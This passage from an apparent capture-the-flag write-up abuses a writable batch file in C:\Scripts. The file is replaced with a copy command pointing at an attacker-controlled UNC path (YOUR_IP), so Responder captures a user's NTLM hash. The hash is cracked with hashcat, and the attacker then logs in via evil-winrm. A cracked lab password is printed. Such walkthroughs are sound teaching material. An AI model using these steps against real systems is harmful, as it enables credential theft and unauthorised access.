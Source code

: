 In `C:\Scripts` we find a file called `backup.bat`. It executes the following command 

```
copy C:\Users\o.armstrong\Desktop\notes.txt C:\Users\o.armstrong\Documents\backup_notes.txt
```

![Bat file content](/images/THM-K2/bat_file.png)

Checking the permissions on the file and its parent directory, we discover that `j.smith` the user we currently control has full control over `C:/Scripts`.

```
Get-Acl -Path "C:\Scripts\backup.bat"

Get-Acl -Path "C:\Scripts"
```

![File permissions](/images/THM-K2/file_permissions.png)

We can exploit this and get the hash of `o.armstrong`.

1. Set up Responder to catch the hash 

```
sudo responder -I tun0
```

2. Remove the existing `backup.bat` file and create another one of the same name with a different content

```
rm backup.bat

Set-Content -Path "C:\Scripts\backup.bat" -Value 'copy \\YOUR_IP\share\notes.txt C:\Users\o.armstrong\Documents\backup_notes.txt'
```

> Notice the different file sizes (Our malicious bat file is the second one)

![Malicious bat file](/images/THM-K2/backup_file_replace.png)

After a little bit of time we get the hash on Responder.

![o.arnstrong hash](/images/THM-K2/o_amstrong_hash.png)

We crack it with hashcat and recover the password `arMStronG08`.

```
hashcat -a 0 -m 5600 oamstrong_hash.txt /usr/share/wordlists/rockyou.txt
```

![o.arnstrong hash cracked](/images/THM-K2/oamstrong_hash_cracked.png)

### Lateral Movement (shell as o.armstrong)

Using evil-winrm we login as `o.armstrong` and find the user flag.

![o.arnstrong login](/images/THM-K2/oarmstrong_login.png)
